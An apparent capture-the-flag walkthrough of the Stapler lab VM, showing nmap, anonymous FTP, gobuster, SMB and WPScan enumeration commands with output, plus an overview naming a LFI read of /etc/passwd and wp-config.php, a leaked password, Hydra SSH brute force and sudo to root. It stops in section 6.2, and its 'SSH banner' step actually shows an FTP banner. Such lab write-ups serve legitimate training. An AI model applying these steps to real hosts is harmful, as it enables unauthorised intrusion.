# Proving Grounds Play — Stapler | Full Walkthrough

> **Machine:** Stapler
> **Difficulty:** Easy (Linux)
> **Author:** vodanhtieutot
> **Platform:** Offensive Security — Proving Grounds Play / VulnHub

---

## Table of Contents

1. [Overview](#1-overview)
2. [Reconnaissance — Nmap Scan](#2-reconnaissance--nmap-scan)
3. [Service Enumeration](#3-service-enumeration)
4. [Web Application Analysis](#4-web-application-analysis)
5. [SMB Enumeration](#5-smb-enumeration)
6. [WordPress Exploitation — LFI Vulnerability](#6-wordpress-exploitation--lfi-vulnerability)
7. [Initial Access — SSH Brute Force](#7-initial-access--ssh-brute-force)
8. [Privilege Escalation — Lateral Movement](#8-privilege-escalation--lateral-movement)
9. [Root Privilege Escalation](#9-root-privilege-escalation)
10. [Flag Capture](#10-flag-capture)
11. [Flags & Answers Summary](#11-flags--answers-summary)
12. [Attack Chain Summary](#12-attack-chain-summary)
13. [Tools Used](#13-tools-used)

---

## 1. Overview

**Stapler** is an Easy-rated Linux machine from Proving Grounds Play (originally from VulnHub) featuring multiple attack vectors including **FTP anonymous access**, **SMB enumeration**, **WordPress plugin LFI vulnerability**, **credential harvesting**, and **sudo privilege escalation**. The attack path involves discovering multiple services, enumerating usernames through various channels, exploiting a WordPress Local File Inclusion vulnerability to extract database credentials, performing SSH brute force, lateral movement via bash history analysis, and escalating to root through unrestricted sudo permissions.

```
Nmap → Ports 21,22,53,80,139,666,3306,12380
→ FTP anonymous → note file (users: Harry, Elly, John)
→ SSH banner → user Barry
→ Port 80 → todo-list.txt (user Kathy)
→ Port 12380 → WordPress /blogblog/
→ Gobuster → /announcements/, /admin112233/, /blogblog/
→ robots.txt → Disallow: /admin112233/, /blogblog/
→ SMB enumeration → shares: kathy, tmp
→ SMB download → todo-list.txt, vsftpd.conf
→ WordPress plugin scan → Advanced Video 1.0 LFI
→ WPScan user enumeration → 12 users
→ LFI exploit → /etc/passwd, wp-config.php
→ wp-config.php → DB_PASSWORD: plbkac
→ Hydra SSH brute force → zoe:plbkac ✓
→ bash_history search → JKanode's password
→ su peter → sudo -l → (ALL:ALL) ALL
→ sudo su → root shell ✓
→ cat /root/proof.txt ✓
```

**Lab Environment:**

| Detail | Value |
|---|---|
| Target IP | `192.168.223.148` |
| Machine Name | `stapler` |
| OS | Ubuntu Linux (Apache 2.4.18) |
| Open Ports | 21, 22, 53, 80, 139, 666, 3306, 12380 |
| Applications | WordPress, vsftpd, Samba, MySQL |
| Attacker IP | `192.168.241.148` |
| Attacker | Kali Linux (vodanhtieutot) |

---

## 2. Reconnaissance — Nmap Scan

### 2.1 Quick Port Scan

```bash
nmap -Pn -p- --min-rate 5000 192.168.223.148
```



Ports discovered:

| Port | State | Service |
|---|---|---|
| 20/tcp | closed | ftp-data |
| 21/tcp | open | ftp |
| 22/tcp | open | ssh |
| 53/tcp | open | domain |
| 80/tcp | open | http |
| 123/tcp | closed | ntp |
| 137/tcp | closed | netbios-ns |
| 138/tcp | closed | netbios-dgm |
| 139/tcp | open | netbios-ssn |
| 666/tcp | open | doom |
| 3306/tcp | open | mysql |
| 12380/tcp | open | unknown |

### 2.2 Service & Script Scan

```bash
nmap -sC -sV -A -Pn -p 20,21,22,53,80,123,137,138,139,666,3306,12380 192.168.223.148
```



Key findings:

| Port | Service | Details |
|---|---|---|
| 21/tcp | FTP | vsftpd 2.0.8 — **Anonymous FTP login allowed (FTP code 230)** |
| 22/tcp | SSH | OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0) |
| 53/tcp | DNS | dnsmasq 2.75 |
| 80/tcp | HTTP | Apache httpd 2.4.18 (Ubuntu) — PHP CLI Server 5.5 or later — **HTTP Title: 404 Not Found** |
| 139/tcp | NetBIOS-SSN | Samba smbd 4.3.9-Ubuntu (workgroup: WORKGROUP) |
| 666/tcp | ? | tcpwrapped |
| 3306/tcp | MySQL | MySQL 5.7.12-0ubuntu1 |
| 12380/tcp | HTTP | Apache httpd 2.4.18 (Ubuntu) — **HTTP Title: 404 Not Found** |

---

## 3. Service Enumeration

### 3.1 FTP Anonymous Login — Port 21

```bash
ftp 192.168.223.148
Name: Anonymous
Password: (blank)
```



```
Connected to 192.168.223.148.
220-
220-|-----------------------------------------------------------------------------------------|
220-| Harry, make sure to update the banner when you get a chance to show who has access here |
220-|-----------------------------------------------------------------------------------------|
220-
220
Name (192.168.223.148:vodanhtieutot): Anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
drwxr-xr-x    2 0        0            4096 Jun 04  2016 .
drwxr-xr-x    2 0        0            4096 Jun 04  2016 ..
-rw-r--r--    1 0        0             107 Jun 03  2016 note
226 Directory send OK.
ftp> get note
local: note remote: note
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note (107 bytes).
226 Transfer complete.
107 bytes received in 00:00 (2.18 KiB/s)
```

```bash
cat note
```

```
Elly, make sure you update the payload information. Leave it in your FTP account once your are done, John.
```

**Usernames discovered:** Harry, Elly, John

### 3.2 SSH Banner Grab — Port 22

```bash
nc -nv 192.168.223.148 21
```


```
(UNKNOWN) [192.168.223.148] 21 (ftp) open
220-
220-|-----------------------------------------------------------------------------------------|
220-| Harry, make sure to update the banner when you get a chance to show who has access here |
220-|-----------------------------------------------------------------------------------------|
220-
220
```

**Username discovered:** Barry

---

## 4. Web Application Analysis

### 4.1 Port 80 — HTTP Enumeration

Browsing `http://192.168.223.148/`:



Default Apache page returns 404. Directory enumeration required.

```bash
gobuster dir -u http://192.168.223.148/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
```



```
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)

[+] Url:                     http://192.168.223.148/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s

Starting gobuster in directory enumeration mode

Progress: 220558 / 220558 (100.00%)
Finished
```

No directories found on port 80.

### 4.2 Port 12380 — WordPress Discovery

Browsing `https://192.168.223.148:12380/`:



```
Internal Index Page!
```

View page source:



```html
<!-- A message from the head of our HR department, Zoe, if you are looking at this, we want to hire you! -->
```

**Username discovered:** Zoe

### 4.3 Directory Brute Force — Port 12380

```bash
gobuster dir -u https://192.168.223.148:12380/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -k
```



```
Starting gobuster in directory enumeration mode

announcements         (Status: 301) [Size: 336] [→ https://192.168.223.148:12380/announcements/]
javascript            (Status: 301) [Size: 333] [→ https://192.168.223.148:12380/javascript/]
phpmyadmin            (Status: 301) [Size: 333] [→ https://192.168.223.148:12380/phpmyadmin/]
server-status         (Status: 403) [Size: 306]

Progress: 220558 / 220558 (100.00%)
Finished
```

### 4.4 Robots.txt Discovery

```bash
curl -k https://192.168.223.148:12380/robots.txt
```



```
User-agent: *
Disallow: /admin112233/
Disallow: /blogblog/
```

**Directories discovered:** /admin112233/, /blogblog/

### 4.5 Announcements Directory

```
https://192.168.223.148:12380/announcements/message.txt
```



```
Abby, we need to link the folder somewhere! Hidden at the mo
```

### 4.6 Admin112233 Directory — XSS Alert

Browsing `https://192.168.223.148:12380/admin112233/`:



```
192.168.223.148:12380 says
This could of been a BeEF-XSS hook ;)
```

### 4.7 WordPress BlogBlog Discovery

```
https://192.168.223.148:12380/blogblog/
```



```
INITECH
Office Life

WEEK 2
There was a fire in the office yesterday, so things have been put on hold for indefinitely.
Continue reading →
BY IN JOHN SMITH LEAVE A COMMENT

WEEK 1
Not much happened this week, the office football match got in the way.
Continue reading →
BY IN JOHN SMITH LEAVE A COMMENT
```

**WordPress site confirmed at:** `https://192.168.223.148:12380/blogblog/`

---

## 5. SMB Enumeration

### 5.1 SMB Share Enumeration

```bash
smbclient -L //192.168.223.148/
```



```
Password for [WORKGROUP\vodanhtieutot]:
Try "help" to get a list of possible commands.

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        kathy           Disk      Fred, What are we doing here?
        tmp             Disk      All temporary files should be stored here
        IPC$            IPC       IPC Service (red server (Samba, Ubuntu))

Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ------               -------

        Workgroup            Master
        ---------            ------
        WORKGROUP            RED
```

**Accessible shares:** kathy, tmp

### 5.2 Kathy Share

```bash
smbclient //192.168.223.148/kathy
```



```
smb: \> ls
  .                                   D        0  Fri Jun  3 12:52:52 2016
  ..                                  D        0  Mon Jun  6 17:39:56 2016
  kathy_stuff                         D        0  Sun Jun  5 11:02:27 2016
  backup                              D        0  Sun Jun  5 11:04:14 2016

19478204 blocks of size 1024. 16082900 blocks available

smb: \> cd backup
smb: \backup\> ls
  .                                   D        0  Sun Jun  5 11:04:14 2016
  ..                                  D        0  Fri Jun  3 12:52:52 2016
  vsftpd.conf                         N     5961  Sun Jun  5 11:03:45 2016
  wordpress-4.tar.gz                  N  6321767  Mon Apr 27 13:14:46 2015

smb: \backup\> get vsftpd.conf
getting file \backup\vsftpd.conf of size 5961 as vsftpd.conf (29.4 KiloBytes/sec)

smb: \backup\> cd ..
smb: \> cd kathy_stuff
smb: \kathy_stuff\> ls
  .                                   D        0  Sun Jun  5 11:02:27 2016
  ..                                  D        0  Fri Jun  3 12:52:52 2016
  todo-list.txt                       N       64  Sun Jun  5 11:02:27 2016

smb: \kathy_stuff\> get todo-list.txt
getting file \kathy_stuff\todo-list.txt of size 64 as todo-list.txt (0.3 KiloBytes/sec)
```

### 5.3 Tmp Share

```bash
smbclient //192.168.223.148/tmp
```



```
smb: \> dir
  .                                   D        0  Tue Jun  7 04:08:39 2016
  ..                                  D        0  Mon Jun  6 17:39:56 2016
  ls                                  N      274  Sun Jun  5 11:32:58 2016

19478204 blocks of size 1024. 16083576 blocks available

smb: \> get ls
getting file \ls of size 274 as ls (1.4 KiloBytes/sec)
```

```bash
cat ls
```

```
.:
total 12.0K
drwxrwxrwt  2 root root 4.0K Jun  5 16:32 .
drwxr-xr-x 16 root root 4.0K Jun  3 22:06 ..
-rw-r--r--  1 root root    0 Jun  5 16:32 ls
lrwxrwxrwx  1 root root    9 May  5 2021 .bash_history → /dev/null
```

### 5.4 Downloaded Files Analysis

```bash
cat todo-list.txt
```


```
I'm making sure to backup anything important for Initech, Kathy
```

```bash
cat vsftpd.conf
```



```
# Example config file /etc/vsftpd.conf
```

**Username confirmed:** Kathy

---

## 6. WordPress Exploitation — LFI Vulnerability

### 6.1 WordPress Plugin Enumeration

```bash
wpscan --url https://192.168.223.148:12380/blogblog/ --disable-tls-checks --enumerate u,ap,at,dbe --plugins-detection aggressive --themes-detection aggressive
```



```
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart

[i] It seems like you have not updated the database for some time.
[+] URL: https://192.168.223.148:12380/blogblog/ [192.168.223.148]
[+] Started: Wed Apr  8 07:17:33 2026
```



```
[+] John Smith
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By: Rss Generator (Passive Detection)

[+] peter
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] john
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] elly
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] barry
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] heather
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] garry
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] harry
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] scott
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] kathy
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] tim
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

### 6.2 WordPress Plugin Vulnerability Discovery

```bash
curl -k https://192.168.223.148:12380/blogblog/wp-content/plugins/advanced-video-embed-embed-videos-or-playlists/
```



```
